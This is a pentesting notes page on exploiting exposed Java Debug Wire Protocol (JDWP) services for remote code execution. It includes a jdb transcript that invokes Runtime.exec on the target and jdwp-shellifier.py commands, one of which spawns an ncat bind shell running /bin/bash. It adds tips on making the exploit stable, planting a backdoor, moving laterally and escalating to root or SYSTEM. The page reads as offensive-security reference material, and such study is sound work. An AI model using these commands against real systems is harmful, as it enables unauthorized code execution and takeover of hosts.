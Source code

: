 ```yaml
---
description: Java Debug Wire Protocol
icon: java
---
```


# JDWP

<mark style="color:purple;">**Java Debug Wire Protocol (JDWP) -**</mark>** **<mark style="color:red;">**Remote Code Execution**</mark>

Java Debugging Wire Protocol (JDWP) is the lowlevel protocol used for communication between a debugger and a Java Virtual Machine (JVM) as outlined in the Java Platform Debugger Architecture. It is often used to facilitate remote debugging of a JVM over TCP/IP and can be identified by the initial protocol handshake ascii string "JDWP-Handshake", sent first by the client and responded to by the server. "jdb" is a proof-of-concept JDWP capable debugger included in Oracle JDK and OpenJDK which can be used to interact with remote JDWP capable services. Typically this service runs on TCP port 8000 however it can be found to run on arbitrary TCP ports and is sometimes found enabled inadvertantly on servers running Java services. It is possible to use this utility to exploit remote JVM's and execute arbitrary Java code. An example shown here outlines how to leverage this weakness to execute arbitrary host OS commands in the context of the JVM.

```
$ jdb -attach x.x.x.x:8000
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> 

Information leaks can be leveraged to determine details about the remote OS
platform and Java installation configuration through the "classpath" command.

> classpath
base directory: C:\Windows\system32
classpath: [ ** MASKED ** list of jar's loaded in remote JVM ]
bootclasspath: [ ** MASKED ** list of JRE paths ]
> 

jdb is capable of performing remote object creation and method invokation from
within the CLI using the "print" "dump" and "eval" commands with the "new"
keyword. To determine the classes and methods available use the "classes" and
then "methods" on the corrosponding class. 

> classes
...
java.lang.Runtime
...
> methods java.lang.Runtime
...
java.lang.Runtime exec(java.lang.String[])
...

It is often necessary to set the JDB context to be within a suspended thread or
breakpoint before attempting to create a new remote object class. Using the
"trace go methods" function can be used to identify a candidate for a breakpoint
and then "stop in your.random.class.method()" to halt the execution of a running
thread. When the execution is halted you can use "print new" to create your
class and invoke methods such as in the following example.

Breakpoint hit: "thread=threadname",your.random.class.method(), line=745 bci=0
threadname[1] print new java.lang.Runtime().exec("cmd.exe /c dir")
new java.lang.Runtime().exec("cmd.exe /c dir") = "java.lang.ProcessImpl@918502"
threadname[1] cont
> 

Exploitation success will be determined from the output of the JDB process as
functions returning "null" or errors about "unsuspended thread state" would
indicate that exploitation was unsuccessful, however in the example above we can
see that the java created a new object "java.lang.ProcessImpl@918502" indicating
the "cmd.exe /c dir" was executed with success. On Linux this may need adjusting
to "java.lang.Runtime.getRuntime().exec()" however see the method / class
enumeration when attempting to exploit this flaw.


Your java will be executed in the context of the running JVM application, this
has been identified on services running as both "root" (*nix) and "SYSTEM"
(win32) in the wild. 
```

#### <mark style="color:purple;">POC:</mark>

{% embed url="https://www.exploit-db.com/exploits/46501" %}

```
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```

I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

Normally this debugger is run on port 8000 and if you establish a TCP connection with the port and send "**JDWP-Handshake**", the server should respond you with the same string.\
Also, you can check this string in the network to find possible JDWP services.

Listing **processes**, if you find the string "**jdwk**" inside a **java process**, probably it has active the \*\*Java Debug Wired Protocol \*\*and you may be able to move laterally or even **escalate privileges** (if executed as root).

#### <mark style="color:purple;">**Resources:**</mark>

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-jdwp-java-debug-wire-protocol" %}

{% embed url="https://ioactive.com/hacking-java-debug-wire-protocol-or-how/" %}

